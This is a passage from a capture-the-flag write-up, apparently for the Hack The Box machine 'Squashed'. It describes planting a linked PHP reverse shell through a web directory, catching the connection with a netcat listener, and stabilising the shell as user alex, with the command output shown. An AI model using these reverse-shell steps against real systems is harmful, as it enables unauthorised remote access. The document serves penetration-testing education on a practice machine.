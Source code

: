 Now let’s craft our reverse shell properly, well no need to craft but there is this [link](https://github.com/pentestmonkey/php-reverse-shell) that got it figure out. We will get that <mark style="color:green;">php</mark> file and modifies the rev file we created in the server. One thing left to do is to run the listener and wait to intercept the connection. One may ask why i choose PHP, and it’s actually because of the info leaked in the <mark style="color:green;">.htaccess</mark> file

```bash
$ cat .htaccess
AddType application/x-httpd-php .htm .html
```

```bash
nc -nvlp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.11.191 38300
Linux squashed.htb 5.4.0-131-generic #147-Ubuntu SMP Fri Oct 14 17:07:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 20:23:21 up 14:59,  1 user,  load average: 0.05, 0.03, 0.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               05:24   14:59m  1:40   0.03s /usr/libexec/gnome-session-binary --systemd --session=gnome
uid=2017(alex) gid=2017(alex) groups=2017(alex)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
alex
$ id
uid=2017(alex) gid=2017(alex) groups=2017(alex)
$ groups
alex
```

Now let’s stabilize our shell by doing the following:

```bash
alex@squashed:/home/alex$ **script /dev/null -c bash**                                                          [12/12]
script /dev/null -c bash                                                                                           
Script started, file is /dev/null                                                                                  
alex@squashed:/home/alex$ **^Z**                                                                                       
[1]+  Stopped                 nc -nvlp 1234                                                                        
                                                                                                                   
d0n in ~/Squashed/Intell on ☁️                                                                                 
✦ 🕘 14:38:22 ✖  **stty raw -echo; fg**                                                                                
nc -nvlp 1234                                                                                                      
             **reset**                                                                                                 
alex@squashed:/home/alex$ export SHELL=bash
```
